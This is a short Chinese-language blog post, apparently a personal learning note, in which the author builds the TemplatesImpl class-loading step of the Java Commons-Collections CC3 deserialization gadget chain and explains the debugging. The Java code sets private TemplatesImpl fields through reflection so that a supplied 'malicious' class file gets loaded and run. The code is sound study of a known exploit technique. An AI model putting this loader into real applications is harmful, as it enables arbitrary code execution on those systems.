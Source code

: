 ```yaml
---
title: "一个搞笑的铸币CC3"
onlyTitle: true
date: 2024-8-1 11:21:21
categories:
- java
- CC
tags:
- CC
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B892.jpg

---
```




今天没事想自己写个CC3类加载

结果为了顺利触发到TemplatesImpl#getTransletInstance的newInstance给我整急眼了，使劲改字段强行通过循环
![](https://i-blog.csdnimg.cn/direct/52b9cf112fac47398f1dd43765926eb7.png)

刚才判定了，_auxClasses为transient，不能用这种方法

结果搞了个下面的代码出来

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Properties;

public class CC3TemplatesImpl {
    public static void main(String[] args) throws Exception {
        byte[] code = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\CC6TiedMapEntry.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "CC6TiedMapEntry");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            } else if (field.getName().equals("_outputProperties")) {
                field.set(templatesClass, new Properties());
            } else if (field.getName().equals("_transletIndex")) {
                field.set(templatesClass, 0);
            } else if (field.getName().equals("_auxClasses")) {
                field.set(templatesClass, new HashMap<>());
            }
        }
        templatesClass.newTransformer();
    }
}
```
你别说，还真TM能跑。![](https://i-blog.csdnimg.cn/direct/bd39e593812d4fe8b63b3e1c14d9cc5b.png)说一下怎么搞的
调试的时候bytecode数组只有一个恶意类，就创建不了hashMap，后面就put不进去。
![](https://i-blog.csdnimg.cn/direct/00d7d3bddf1c48db8327039c4c27ac6c.png)于是我bytecode传了两个恶意数组
```java
	field.set(templatesClass, new byte[][]{code,code});
```
结果进第二个catch，hashMap不能重复put
![](https://i-blog.csdnimg.cn/direct/6c6442df540e46b79bcce2e74b388a0d.png)我又传了个空字节，我去，空字节不能defineClass，连循环都出不了
```java
	field.set(templatesClass, new byte[][]{code,new byte[0]});
```
突然想到，我自己搞个hashMap就完了，用他的干毛啊
于是
```java
else if (field.getName().equals("_auxClasses")) {
                field.set(templatesClass, new HashMap<>());
            }
```
感觉像个大铸币写的